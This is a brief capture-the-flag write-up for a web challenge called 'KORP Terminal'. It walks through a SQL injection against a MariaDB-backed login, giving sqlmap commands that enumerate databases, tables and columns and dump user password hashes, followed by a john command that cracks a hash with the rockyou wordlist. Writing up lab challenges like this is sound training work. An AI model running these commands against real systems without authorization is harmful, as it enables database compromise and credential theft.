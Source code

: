 # KORP Terminal

So here is the page we are greeted with:

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Nothing much happening here, nothing in the source code, so i go on and capture a request

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

So i tried some basic sql bypasses but nothing seems to be a low hanging fruit but i was able to make an interesting error pop:

<figure><img src="../../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

so we got some mariaDB behing this, but since i wan't to be quick i copy all the content in the request tab and put it in a txt file:

```
sqlmap -r req.txt
```

<figure><img src="../../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

We get blocked because of the response code but we can continue by ignoring this:

```
sqlmap -r req.txt --ignore-code 401 --dbs
```

<figure><img src="../../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables korp_terminal
```

<figure><img src="../../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables users --columns
```

<figure><img src="../../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 -T users -C password --dump
```

<figure><img src="../../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have our hash we can try to bruteforce ir:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt.gz
```

and we find the password (we could guess that smh...)
